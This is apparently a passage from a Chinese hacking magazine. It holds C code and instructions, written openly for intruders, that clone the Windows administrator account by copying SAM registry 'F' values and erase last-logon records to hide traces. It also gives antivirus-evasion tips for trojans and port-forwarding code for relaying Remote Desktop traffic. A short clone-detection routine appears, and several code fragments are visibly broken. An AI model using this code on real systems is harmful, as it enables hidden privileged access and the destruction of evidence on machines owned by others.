
















```

以上代码都很简单且配合有详细的说明，相信读者能够很好地理解。可以看到，整个升级过程相当隐蔽，升级完成之后不留下任何痕迹，此种方式用于木马服务端的升级还是相当不错的，当然有很多地方需要改进，这就需要聪明的你自主发挥了！

本文所选的开发工具是 VS 2008，虽然经过了我们的一系列处理后最终能实现“裸奔”，但是相对于用 VC 6.0 编译生成的文件体积还是大了不少，对于像木马服务端这样对“身材”要求如此严格的程序来说是相当不利的，所以建议本文代码最终在 Visual C++ 6.0 中编译。最后和大家共享一个经验：编写木马时尽量使用 Unicode 字符，因为很多杀毒软件在进行特征码查杀的时候会对 Ansi 字符编写的代码比较敏感，当然我的这一点总结仅供参考。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：VC
- 关键词：编程、用户克隆、信息擦除
##### VC 实现用户克隆和登录信息擦除

文/图 magicdog

经常搞入侵渗透的朋友，肯定对管理员克隆和登录信息擦除不会陌生，由于个人需要，自己就写了一款类似的工具，顺便复习了一下注册表键值二进制的操作，这里和大家共同分享一下。

###### 克隆的原理

一般我们在应用克隆时，主要是躲避管理员的检查，比如让一个目标机器上已存在的非管理员账户具有管理员权限。在注册表中有两处保存了账号标志符，一处是注册表 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`，如图1所示；一处是该子键的子项 F 的值，如图2所示。
但是 Windows 在回应查询用户信息时，使用的是第一处的标志，而在用户执行操作被检查权限时，使用的又是后者。当用管理员的 F 项覆盖其他账号的 F 项后，那么被覆盖的账号就和管理员的一些信息相同了，包括权限！
###### 克隆的手工操作

因为要操作 SAM 下的项是需要 System 权限的，所以可以考虑用提权工具得到 System 权限，再打开 `regedit.exe`。另一种办法是直接添加权限，如图3所示。非 System 权限下默认是无法操作它下面的项的。我们现在直接通过注册表添加权限，如图4和图5所示。
在打开管理员的 F 值之前，我们还要确定哪个是管理员的 SID，如图6所示，管理员的 SID 为 `0x1f4`。好了，现在我们复制其 F 值，如图7所示。同样的方法，打开你想要克隆的账户，把其下的值覆盖即可！
图 7

###### 完整克隆实现

```c
void Clone()//克隆管理员账户
{
    HKEY hkey;
    DWORD type,size = 10000,size1=0;
    char name[2550]="";
    BYTE name_F[100]="",bin[100];
    ZeroMemory(bin,sizeof(bin));
    char
    *key="SAM\\SAM\\Domains\\Account\\Users\\Names\\",path[1000]="",
    *key1="SAM\\SAM\\Domains\\Account\\Users\\";
    for(int i = 0; ;i++)//获取被克隆的 F 值
    {
        if(5==RegOpenKeyEx(HKEY_LOCAL_MACHINE,key,0,KEY_ALL_ACCESS,&hkey))
        {
            printf("需要 system 权限！\n");
            return;
        }
        if(ERROR_NO_MORE_ITEMS==RegEnumKey(hkey,i,name,sizeof(name)))//枚举
            break;
        if(!lstrcmpi(main_argv[2],name))
        //查找被克隆的管理员账户
        {
            strcpy(path,key);
            strcat(path,name);
            RegOpenKeyEx(HKEY_LOCAL_MACHINE,path,0,KEY_ALL_ACCESS,&hkey);
            RegQueryValueEx(hkey,0,0,&type,name,&size);
            //读取默认键的值，用户名对应的 id
            strcpy((char*)name,"00000000");
            ZeroMemory(name,sizeof(name));
            itoa(type,name,16);
            for(int j = strlen(name),k=0;j>0;k++,j--)
            {
                name_F[7-k]=name[j-1];
                //得到类似 000001F4 的字符
            }
            strcpy(path,key1);
            strcat(path,(char*)name_F);
            RegOpenKeyEx(HKEY_LOCAL_MACHINE,path,0,KEY_ALL_ACCESS,&hkey);
            size=1000;//重置
            RegQueryValueEx(hkey,"F",0,&type,(PBYTE)bin,&size);
            //读取默认键的值，用户名对应的 id
            size1 = size;//保留大小，下面会用到
            break;
        }
    }
}
```

```c
if(!bin[0])
{printf("没有这个管理员！\n");return;}
for(int i = 0; ;i++)//找出克隆账户并克隆
{
    if(5==RegOpenKeyEx(HKEY_LOCAL_MACHINE,key0,KEY_ALL_ACCESS,&hkey))
    {
        printf("需要 system 权限！\n");
        return;
    }
    if(ERROR_NO_MORE_ITEMS==RegEnumKey(hkey,i,name,sizeof(name)))// 枚举
        break;
    if(!lstrcmpi(main_argv[3],name))//
    {
        strcpy(path,key);
        strcat(path,name);
        RegOpenKeyEx(HKEY_LOCAL_MACHINE,path,0,KEY_ALL_ACCESS,&hkey);
        RegQueryValueEx(hkey,0,0,&type,name,&size);
        //读取默认键的值，用户名对应的 id
        //这里是 type 的值对应用户名
        strcpy((char*)name,"00000000");
        ZeroMemory(name,sizeof(name));
        itoa(type,name,16);
        for(int j = strlen(name),k=0;j>0;k++,j--)
        {
            name_F[7-k]=name[j-1];
            //得到类似 000001F4 的字符
        }
        strcpy(path,key1);
        strcat(path,(char*)name);
        RegOpenKeyEx(HKEY_LOCAL_MACHINE,path,0,KEY_ALL_ACCESS,&hkey);
        RegSetValueEx(hkey,"F",0,type,(PBYTE)bin,size1);
        printf("克隆成功！\n");
        return;
    }
}
printf("没找到克隆账户！\n");
}
```

###### 克隆的检查

那么作为计算机真正的管理员来说，如何检查账户有没有被克隆呢？最简单的办法是比较 F 值里的 SID 标示与其真正的 SID 是否一样，如图 7 中，第 30 行数据 “F4 01” 便是保存的 SID 了，我们可以以此来判断。实现代码如下，运行效果如图 8 所示。

```c
void CHKClone()
{
    HKEY hkey;
    DWORD type,size = 10000;
    char name[2550]="",path[1000]="",name1[300]="";
    BYTE name_F[100]="",bin[100];
    char *key="SAM\\SAM\\Domains\\Account\\Users\\Names\\",
         *key1="SAM\\SAM\\Domains\\Account\\Users\\";
    printf("\nUserName\t\tExpectedSID\tCheckedSID\n");
    for(int i = 0; ;i++)
    {
        if(5==RegOpenKeyEx(HKEY_LOCAL_MACHINE,key,0,KEY_ALL_ACCESS,&hkey))
        {printf("需要 system 权限！\n");return;}
        ...
    }
}
```

```c
if (ERROR_NO_MORE_ITEMS == RegEnumKey(hkey, i, name, sizeof(name))) // 枚举
    break;
strcpy(name, name);
strcpy(path, key);
strcat(path, name);
RegOpenKeyEx(HKEY_LOCAL_MACHINE, path, 0, KEY_ALL_ACCESS, &hkey);
RegQueryValueEx(hkey, 0, 0, &type, name, &size);
// 读取默认键的值，用户名对应的id
strcpy((char*)name, "00000000");
ZeroMemory(name, sizeof(name));
itoa(type, name, 16);
for (int j = strlen(name), k = 0; j > 0; k++, j--)
{
    name_F[7 - k] = name[j - 1];
    // 得到类似000001F4的字符
}
strcpy(path, key1);
strcat(path, (char*)name);
printf("%-20s%12s", name1, name);
RegOpenKeyEx(HKEY_LOCAL_MACHINE, path, 0, KEY_ALL_ACCESS, &hkey);
size = 1000; // 重置
RegQueryValueEx(hkey, "F", 0, &type, (PBYTE)bin, &size);
printf("%s%2.2x%2.2x%2.2x%2.2x\n", "", bin[51], bin[50], bin[49], bin[48]);
```

图 9

图 10

图 8

##### 遮蔽登录信息的原理

我们先执行一个命令“net user administrator”，如图9所示。这里便可以得到用户最后一次登录的情况。作为入侵者，我们自然不想要对方知道这个情况。

在最开始编写代码处理这个问题时，被微软玩了一把。因为系统本身提供一个 API 可以操作用户，例如添加、删除、修改密码等，并且存放用户信息的数据结构中也有 last_logon 这一项。可是当我改写之后准备用 net user info 回去时却始终不成功，搞了半天，才发现 MSDN 中有如下注释，如图10所示。

最后的解决办法是：该信息存在于图7里的数据中，从第8行开始至整行结束，一共8个字节，分为高低位，如果需要计算或者改变具体时间，可以查看 MSDN。

##### 遮蔽信息的代码实现

```c
void Never()
{
    HKEY hkey;
    DWORD type, size = 10000;
    char name[2550] = "";
    BYTE name_F[100] = "", bin[100];
    char *key = "SAM\\SAM\\Domains\\Account\\Users\\Names\\";
    char *key1 = "SAM\\SAM\\Domains\\Account\\Users\\";
    for (int i = 0;; i++)
    {
        if (ERROR_NO_MORE_ITEMS == RegEnumKey(hkey, i, name, sizeof(name))) // 枚举
            break;
        if (!strcmp(main_argv[2], name))
        {
            strcpy(path, key);
            strcat(path, name);
            RegOpenKeyEx(HKEY_LOCAL_MACHINE, path, 0, KEY_ALL_ACCESS, &hkey);
            RegQueryValueEx(hkey, 0, 0, &type, name, &size);
            // 读取默认键的值，用户名对应的id
            // 这里是type的值对应用户名
            strcpy((char*)name, "00000000");
            ZeroMemory(name, sizeof(name));
            itoa(type, name, 16);
            for (int j = strlen(name), k = 0; j > 0; k++, j--)
            {
                name_F[7 - k] = name[j - 1];
                // 得到类似000001F4的字符
            }
        }
    }

    strcpy(path, key1);
    strcat(path, (char*)name_F);
    RegOpenKeyEx(HKEY_LOCAL_MACHINE, path, 0, KEY_ALL_ACCESS, &hkey);
    size = 1000; // 重置
    RegQueryValueEx(hkey, "F", 0, &type, (PBYTE)bin, &size);
    // 读取默认键值，用户名对应的id
    for (int j = k - 8; j < 16; j++)
    {
        bin[j] = 0;
    }
    RegSetValueEx(hkey, "F", 0, type, (PBYTE)bin, size);
    return;

    printf("没有这个用户!\n");
}
```

我们将第 8 行开始的整行置为 0 就可以了，运行效果如图 11 所示。

图 11

前置知识：VC

关键词：编程、端口转发、Socket

##### 端口转发 3389 数据

文 / magic dog

因为软件需要一个端口转发功能（也叫端口映射等），做完收工的时候发现可以支持 Telnet 等功能，但是远程桌面却一直死在那里，百思不得其解，好在最后还是成功解决了。

依次从 3）~6）循环。端口转发必然有 2 个以上 Socket 连接，所以我们要考虑如何来处理。一种方式是建立多线程，分别处理 Socket，另一种是利用 Select 来处理。二种方式效果都是差不多的。

好了，最后再来说说之前我遇到的远程桌面数据转发的问题。最初发现不能连接便跟踪调试，发现 mstsc.exe 在第二次发送数据时便是 0，即 recv 数据的长度为 0，内容也为 0。我们知道，一般情况下 recv 没收到数据是不会返回 0 的（阻塞模式），当返回为 0 时，应该是关闭连接的请求。但是到此就都闷了，想不通为何关闭。因为该功能应用于 Telnet 是成功的，所以考虑是协议上的问题。

最后解决办法，远程桌面的连接规定如下：mstsc.exe 发起连接请求；服务器回馈数据；mstsc.exe 发送关闭连接请求；结束当前 Socket 连接，此时 mstsc.exe 发起真正的连接请求；服务器响应……所以，我们需要将程序的 listen 和 accept 加入循环，以便接受新的连接。

##### 问题原理

比较形象点的描述，端口数据转发情况大致是这样的：假设主机上开放 389 端口，我只能连接主机 123 端口，所以需要将我发到端口 123 的数据转发到 389，并将 389 回馈的数据发送给我。步骤如下：

- 1) 转发程序主动连接（connect）389，并留下一个端口 123，等待连接（listen）。
- 2) 我发起连接（connect）到 123，连接成功后等待（recv）。
- 3) 转发程序收到我的连接请求 recv（123）后，将数据转发到（send）389（等待 recv）。
- 4) 389 端口收到数据后，发送回馈数据给转发程序（等待 recv）。
- 5) 转发程序接收到回馈数据转发给我（等待 recv）。
- 6) 我收到数据……

##### Socket 方法的代码实现

```cpp
// test.cpp：定义控制台应用程序的入口点
#include "stdafx.h"
#include "windows.h"
#include "winsock2.h"
#pragma comment(lib,"Ws2_32.lib")
SOCKET wsh, wsl, redirect;

void x()
{
    while (1)
    {
        char buffer[102400];
        ZeroMemory(buffer, 102400);
        int len = recv(redirect, buffer, 102400, 0);
        if (len < 1) continue;
        buffer[len] = '\0';
        send(wsh, buffer, len, 0);
    }
}

void y()
{
    while (1)
    {
        char buffer[102400];
        ZeroMemory(buffer, 102400);
        int len = recv(wsh, buffer, 102400, 0); // 客户端重新连接
        if (!len)
        {
            return;
        }
        if (len < 1) continue;
        buffer[len] = '\0';
        send(redirect, buffer, len, 0);
    }
}

void portredirect()
{
    while (1)
    {
        BOOL val = TRUE;
        int port = 414, size, TargetPort = 3389; // 监听端口
        char TargetIP[] = "192.168.233.1";
        struct sockaddr_in door, client;
        WSADATA data;
        if (WSAStartup(MAKEWORD(2, 2), &data)) return;
        if ((wsl = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET) return;
        door.sin_family = AF_INET;
        door.sin_addr.s_addr = INADDR_ANY; // inet_addr("192.168.233.1")
        door.sin_port = htons(port);
        if (bind(wsl, (struct sockaddr*)&door, sizeof(door)) == INVALID_SOCKET)
        {
            closesocket(wsl);
            return;
        }
        if (listen(wsl, 4) == INVALID_SOCKET) // 开始监听
        {
            closesocket(wsl);
            return;
        }
        size = sizeof(client);
        wsh = accept(wsl, 0, 0); // 接受连接
        if (wsh == INVALID_SOCKET) return;
        if ((redirect = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET) return;
        client.sin_family = AF_INET;
        client.sin_addr.s_addr = inet_addr(TargetIP);
        client.sin_port = htons(TargetPort);
        connect(redirect, (struct sockaddr*)&client, sizeof(client));
        DWORD myID;
        CreateThread(0, 1000, (LPTHREAD_START_ROUTINE)x, 0, 0, &myID);
        HANDLE xc = CreateThread(0, 1000, (LPTHREAD_START_ROUTINE)y, 0, 0, &myID);

        WaitForSingleObject(xc, INFINITE);
        CloseHandle(xc);
        WSACleanup();
    }
    return;
}

int _tmain(int argc, _TCHAR* argv[])
{
    portredirect();
    return 0;
}
```

这是建立多线程的方式，注意判断 len 为 0 时便结束 Socket 连接。接下来我们再看 Select 方式的实现。

##### Select 方法代码实现

```cpp
// test.cpp：定义控制台应用程序的入口点。
#include "stdafx.h"
#include "windows.h"
#include "winsock2.h"
#pragma comment(lib,"Ws2_32.lib")
SOCKET wsh, wsl, redirect;

void portredirect()
{
    while (1)
    {
        BOOL val = TRUE;
        int port = 414, size, TargetPort = 3389; // 监听端口
        char TargetIP[] = "192.168.233.1";
        struct sockaddr_in door, client;
        WSADATA data;
        if (WSAStartup(MAKEWORD(2, 2), &data)) return;
        if ((wsl = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET) return;
        door.sin_family = AF_INET;
        door.sin_addr.s_addr = INADDR_ANY;
        door.sin_port = htons(port);
        if (bind(wsl, (struct sockaddr*)&door, sizeof(door)) == INVALID_SOCKET)
        {
            closesocket(wsl);
            return;
        }
        if (listen(wsl, 4) == INVALID_SOCKET) // 开始监听
        {
            closesocket(wsl);
            return;
        }
        size = sizeof(client);
        wsh = accept(wsl, 0, 0); // 接受连接
        if (wsh == INVALID_SOCKET) return;
        if ((redirect = socket(AF_INET, SOCK_STREAM, 0)) == INVALID_SOCKET) return;
        client.sin_family = AF_INET;
        client.sin_addr.s_addr = inet_addr(TargetIP);
        client.sin_port = htons(TargetPort);
        connect(redirect, (struct sockaddr*)&client, sizeof(client));

        while (true)
        {
            fd_set fdr;
            FD_ZERO(&fdr);
            FD_SET(redirect, &fdr);
            FD_SET(wsh, &fdr); // 每次都要放入进行判断
            select(wsh + 2, &fdr, 0, 0, 0);

            if (FD_ISSET(redirect, &fdr)) // 目标返回
            {
                char buffer[102400];
                ZeroMemory(buffer, 102400);
                int len = recv(redirect, buffer, 102400, 0);
                if (!len)
                {
                    WSACleanup();
                    break;
                }
                if (len < 1) continue;
                buffer[len] = '\0';
                send(wsh, buffer, len, 0);
            }

            if (FD_ISSET(wsh, &fdr)) // 客户端有数据
            {
                char buffer[102400];
                ZeroMemory(buffer, 102400);
                int len = recv(wsh, buffer, 102400, 0);
                if (!len)
                {
                    WSACleanup();
                    break;
                }
                if (len < 1) continue;
                buffer[len] = '\0';
                send(redirect, buffer, len, 0);
            }
        }
    }
}

int _tmain(int argc, _TCHAR* argv[])
{
    portredirect();
    return 0;
}
```

用 Select 方法实现的程序流程更清晰，调试也容易些。不过要注意将以下代码放入每次的循环中，因为计算机不会自动更新 fd_set 集合。

```cpp
fd_set fdr;
FD_ZERO(&fdr);
FD_SET(redirect, &fdr);
FD_SET(wsh, &fdr); // 每次都要放入进行判断
```

前置知识：C、Linux  
关键词：编程、无线网、PPPoE

##### 打造 Linux 下无线 PPPoE 攻击工具

文/图 Proton

